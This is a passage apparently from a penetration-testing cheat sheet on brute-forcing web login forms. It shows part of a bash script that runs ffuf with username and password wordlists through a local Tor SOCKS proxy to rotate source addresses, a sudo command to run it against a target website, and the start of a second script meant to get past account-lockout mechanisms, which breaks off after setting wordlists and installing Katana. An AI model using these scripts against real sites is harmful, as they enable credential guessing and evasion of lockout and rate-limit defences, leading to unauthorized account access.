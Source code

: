 ```bash
         -x "socks5://127.0.0.1:16379" \
         -X GET \
         -ac -c -r -mc 200 \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -x "socks5://127.0.0.1:16379" \
         -X POST -d "$DATA" \
         -ac -c -r -mc 200 \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x multitor-bruteforce.sh;sudo ./multitor-bruteforce.sh $WEBSITE
```

### **Unique Lockout Mechanisms**

#### [Katana](https://github.com/projectdiscovery/katana)[ ](https://github.com/trimstray/multitor)& [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano forwarded-bruteforce.sh
```

```bash
#!/bin/bash

# Config & Colors
RED='\e[1;31m'; GREEN='\e[1;32m'; YELLOW='\e[1;33m'; CYAN='\e[1;36m'; RESET='\e[0m'
color_print() { printf "${!1}%b${RESET}\n" "$2"; }

# Root Check
[[ "$(id -u)" -ne 0 ]] && { color_print RED "[X] Please run as ROOT."; exit 1; }

# Input Check
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"
USERLIST="/usr/share/seclists/Usernames/top-usernames-shortlist.txt"
PASSLIST="/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt"
DEPS="git seclists tor torsocks obfs4proxy npm proxychains nodejs dnsutils haproxy privoxy go-golang ffuf"

# Install Katana
if ! command -v katana &>/dev/null; then
    color_print GREEN "[*] Installing katana ..."
    go install github.com/projectdiscovery/katana/cmd/katana@latest;sudo ln -fs ~/go/bin/katana /usr/bin/katana
fi

```